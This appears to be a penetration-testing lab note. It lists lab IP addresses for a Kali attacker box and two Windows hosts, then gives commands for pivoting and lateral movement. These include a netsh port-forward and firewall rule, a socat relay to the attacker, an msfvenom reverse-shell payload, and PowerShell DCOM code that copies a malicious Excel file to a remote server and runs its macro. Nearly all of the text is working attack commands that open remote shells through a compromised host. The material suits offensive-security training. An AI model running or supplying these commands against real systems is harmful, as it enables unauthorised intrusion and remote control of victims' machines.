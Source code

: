 | My Kali IP      | Win10          | WinServ      |
| --------------- | -------------- | ------------ |
| 192.168.119.190 | 192.168.190.10 | 172.16.190.5 |

![[1._rlwrap]]

Win10:

Forward any traffic on Win10:4444 box to Kali:443:
```
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=192.168.190.10 connectport=443 connectaddress=192.168.119.190
```

Setting up firewall rule:
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.190.10 localport=4444 action=allow
```

Setting up socat to forward traffic from port 4444 to kali:443:
```
socat tcp-l:4444,fork,reuseaddr tcp:192.168.119.190:443
```

Generate reverse shell code to execute on the WinServ target:
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.190.10 LPORT=4444 -f hta-psh
```

Execute malicious excel file on remote machine for reverse shell to trigger on Kali box.

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.190.5"))

$LocalPath = "C:\Users\jeff_admin\Desktop\myexcel.xls"

$RemotePath = "\\172.16.190.5\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\172.16.190.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```
